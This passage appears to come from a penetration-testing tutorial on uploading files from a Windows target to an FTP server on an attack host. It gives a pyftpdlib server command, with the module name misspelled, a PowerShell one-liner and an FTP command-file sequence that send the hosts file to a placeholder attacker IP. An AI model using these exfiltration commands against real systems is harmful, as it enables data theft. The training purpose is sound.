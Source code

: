 ----
Uploading files using FTP is very similar to downloading files. We can use PowerShell or the FTP client to complete the operation. Before we start our FTP Server using the Python module `pyftpdlib`, we need to specify the option `--write` to allow clients to upload files to our attack host.

```bash
sudo python3 -m pyftplib --port 21 --write
```

Now let's use the PowerShell upload function to upload a file to our FTP Server.

```powershell
(New-Object Net.WebClient).UploadFile('ftp://<ftp-ip>/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

#### Create a Command File for the FTP Client to Upload a File

```cmd-session
echo open <FTP-ip> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
